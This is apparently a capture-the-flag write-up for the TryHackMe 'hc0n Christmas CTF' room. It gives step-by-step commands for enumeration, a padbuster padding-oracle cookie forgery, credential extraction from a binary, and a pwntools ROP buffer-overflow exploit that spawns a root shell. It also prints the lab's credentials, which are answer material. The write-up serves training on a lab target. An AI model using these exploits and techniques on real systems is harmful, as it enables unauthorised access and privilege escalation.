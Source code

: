 # [hc0n Christmas CTF] (https://tryhackme.com/room/hc0nchristmasctf)

## hackt the planet

### What is the user flag?

1. First, enumerate available ports with nmap to identify running services

```bash
nmap IP
```

![SCREEN01](https://github.com/user-attachments/assets/a102ff30-5800-4ff5-8814-9ed7ef89d43a)

2. Visiting the web service at `http://IP:8080`, we discover a ciphertext **RwO9+7tuGJ3nc1cIhN4E31WV/qeYGLURrcS7K+Af85w=**. This appears to be Base64-encoded, likely AES-encrypted data that we'll need to decrypt later

3. Enumerate directories on the web server with gobuster to discover hidden paths

```bash
gobuster dir -u IP -w /root/Desktop/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt
```

![SCREEN02](https://github.com/user-attachments/assets/47673379-ac6f-494c-955d-f133688ed568)

4. Examining `http://IP/robots.txt` provides valuable information:

   - Admin username: **administratorhc0nwithyhackme**
   - Reference to an image at `http://IP/iv.png`

5. The image at `http://IP/iv.png` contains text encoded with the Cicada 3301 cipher. Using the translation tables from [uncovering-cicada.fandom](https://uncovering-cicada.fandom.com/wiki/How_the_solved_pages_of_the_Liber_Primus_were_solved), we can decrypt it:

   - Decrypted text: **THEIVFORINGEOAEY**
   - This appears to be the Initialization Vector (IV) needed for AES decryption

6. Register a new account at `http://IP/register.php` and examine the cookies:

   - In your browser, open DevTools -> Storage -> Cookies

7. Use padbuster to perform a Padding Oracle Attack and forge a cookie for the admin user (select option **2** when prompted)

```bash
padbuster http://IP/login.php "COOKIE_VALUE" 8 --cookies hcon=COOKIE_VALUE --encoding 0 -plaintext user=administratorhc0nwithyhackme
```

![SCREEN03](https://github.com/user-attachments/assets/a7f5b0ea-8d7a-4af2-b3ad-0f570e2c9e90)

8. Replace your existing cookie with the newly generated encrypted value, then refresh the page:
   - In the admin panel, you'll find the SecretKeySpec: **hconkwithyhackme**
   - This is the encryption key needed to decrypt the AES ciphertext

![SCREEN04](https://github.com/user-attachments/assets/d6e1924d-f1e6-439f-9017-4fe48e7cbb9e)

9. With all required elements now collected, we can decrypt the ciphertext from step 2:
   - Visit [AES decryption site](https://www.devglan.com/online-tools/aes-encryption-decryption)
   - Input the ciphertext: `RwO9+7tuGJ3nc1cIhN4E31WV/qeYGLURrcS7K+Af85w=`
   - Key: `hconkwithyhackme`
   - IV: `THEIVFORINGEOAEY`
   - Mode: CBC
   - Key Size: 128 bits
   - Output Text Format: Text
   - The decrypted value reveals the SSH username: **thedarktangent**

![SCREEN05](https://github.com/user-attachments/assets/05234f3f-a35e-4150-8348-36af4660e5f6)

10. Continuing with directory enumeration, investigate `http://IP/hide-folders/`:

    - This directory contains two subdirectories: `/1/` and `/2/`
    - Accessing `/1/` results in a "Method Not Allowed" error

11. To bypass the method restriction on `/1/`:
    - In DevTools, right-click the `http://IP/hide-folders/1/` request
    - Select "Edit and Resend"
    - Change the HTTP method from `GET` to `OPTIONS`
    - This reveals the first part of the SSH password: **Gf7MRr55**

![SCREEN06](https://github.com/user-attachments/assets/e711c1d8-920c-420b-96a0-a0be792b3ba8)

12. To obtain the second part of the password, download the file from `http://IP/hide-folders/2/`:
    - The executable prompts for a username and password
    - Use the credentials found in the strings output: **stuxnet:n$@#PDuliL**
    - After login, it reveals the second part of the SSH password: **n$@#PDuliL**

```bash
chmod +x hola
strings hola
./hola
# login with stuxnet:n$@#PDuliL
```

![SCREEN07](https://github.com/user-attachments/assets/0a91af5e-b435-4c71-90df-0e6169667518)
![SCREEN08](https://github.com/user-attachments/assets/7ef79b55-3a75-4bb1-8121-84c628fcf8cf)

13. Put together the password parts and login via SSH to obtain the user flag

```bash
ssh thedarktangent@IP
# Password: Gf7MRr55n$@#PDuliL
cat user.txt
```

![SCREEN09](https://github.com/user-attachments/assets/626ef445-ab9a-4cde-a11b-167cbcf930dc)

---

### What is the root flag?

1. Search for potential privilege escalation vectors by identifying SUID binaries:
   - this will be the `home/thedarktangent/hc0n`

```bash
find / -perm -u=s -type f 2>/dev/null
```

![SCREEN10](https://github.com/user-attachments/assets/efca6f69-2af7-4dd5-a07e-3936a334306a)

2. Transfer the binary to our attacking machine for analysis:

```bash
# On target machine
python3 -m http.server
```

![SCREEN11](https://github.com/user-attachments/assets/5169e3c1-c865-4bfd-a374-f2997c0cafb2)

```bash
# On attacking machine
wget http://IP:8000/hc0n
```

![SCREEN12](https://github.com/user-attachments/assets/0a1c2c49-b1a6-4d8c-bda9-e24a2ec976cc)

3. Test the binary for buffer overflow vulnerabilities
   - The program crashes with a **SIGSEGV, Segmentation fault**, confirming it's vulnerable to buffer overflow.

```bash
python -c "print 'A'*200" > A.in
gdb hc0n
r < A.in
```

![SCREEN13](https://github.com/user-attachments/assets/c8dabd4a-4f01-4e77-8184-19892b76b69a)

4. Generate a unique pattern to identify the exact offset needed:

```bash
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 200
```

![SCREEN14](https://github.com/user-attachments/assets/e968bb16-149d-4ab1-8b4a-45a6f9447e5a)

5. Use the generated pattern in GDB to find the exact crash point:

```bash
gdb -q hc0n
r
# When prompted, paste the generated pattern
x $rbp
# Note the value in RBP register
```

![SCREEN15](https://github.com/user-attachments/assets/65fccb28-4d9a-419b-a4e5-33f971875caa)

6. Calculate the precise offset:

```bash
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q 0x6241376241366241
```

![SCREEN16](https://github.com/user-attachments/assets/5081deed-675f-41b6-8311-b7d1f9c251d5)

7. Create and test a payload to verify our control of the instruction pointer

```bash
python -c "print('A'*56 + '\x43\x43\x42\x42\xfe\xfe\xff\xff')" > payload.in

gdb hc0n
r < payload.in
```

![SCREEN17](https://github.com/user-attachments/assets/6a913517-af25-411a-8ad8-1e133bceb9b4)

8. Create [an exploit](https://deskel.github.io/posts/thm/hc0n-christmas-ctf) using pwntools to gain a root shell

```python
from pwn import *
import sys

HOST = "IP"
PORT = 22

def SROP_exploit(r):
	pop_rax = 0x40061f
	pop_rdi = 0x400604
	pop_rsi = 0x40060d
	pop_rdx = 0x400616
	bin_sh = 0x4006f8
	syscall = 0x4005fa

	payload = "A"*56
	payload += p64(pop_rax)
	payload += p64(59)
	payload += p64(pop_rdi)
	payload += p64(bin_sh)
	payload += p64(pop_rsi)
	payload += p64(0x0)
	payload += p64(pop_rdx)
	payload += p64(0x0)
	payload += p64(syscall)

	print(r.recvline())
	r.sendline(payload)
	r.interactive()

if __name__== "__main__":
	r = ssh(host=HOST, port=PORT, user="USERNAME", password="PASSWORD")
	s = r.run('./hc0n')
	SROP_exploit(s)
```

9. Run the exploit and obtain the root flag

```bash
pip install pwntools
python script.py

whoami
cat /root/root.txt
```

![SCREEN18](https://github.com/user-attachments/assets/9a379784-7cd1-44e9-bf47-af4a8ace7e49)
